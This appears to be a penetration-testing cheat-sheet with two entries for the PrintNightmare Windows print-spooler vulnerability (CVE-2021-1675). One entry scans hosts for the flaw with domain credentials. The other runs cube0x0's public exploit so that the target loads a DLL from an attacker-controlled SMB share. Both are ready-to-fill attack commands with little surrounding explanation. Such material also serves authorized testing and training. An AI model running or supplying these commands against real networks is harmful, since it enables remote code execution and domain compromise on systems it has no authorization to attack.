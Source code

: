 # ItWasAllADream

% itwasalladream, printnightmare, Active Directory

## ItwasAllADream
#assessment/AD #attack_type/Quickwin #port/445 #port/139 #protocol/smb #access/Domain_user

Check if the targeted host is vulnerable to PrintNightmare (CVE-2021-1675).
The 'ip' parameter also handles the path to file containing a list of IPs.

```bash
itwasalladream -u <user> -p <password> -d <domain> <ip>
```

# PrintNightmare

% itwasalladream, printnightmare, Active Directory

## PrintNightmare
#assessment/AD #attack_type/Quickwin #port/445 #port/139 #protocol/smb #access/Domain_user

Exploit the PrintNightmare (CVE-2021-1675) vulnerability on the remote target using cube0x0's exploit.

⚠️ Here, PrintNightmare has been aliased to cube0x0's python exploit. Otherwise, launch the command with python3 CVE-2021-1675.py ...

```bash
PrintNightmare <domain>/<user>:<password>@"<ip>".<domain> '\\<attacker_ip>\<dll_path>'
```

= ip: 192.168.1.0
= dc-ip: $DC_IP
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= dll_path: EXEGOL\PrintNightmare.dll
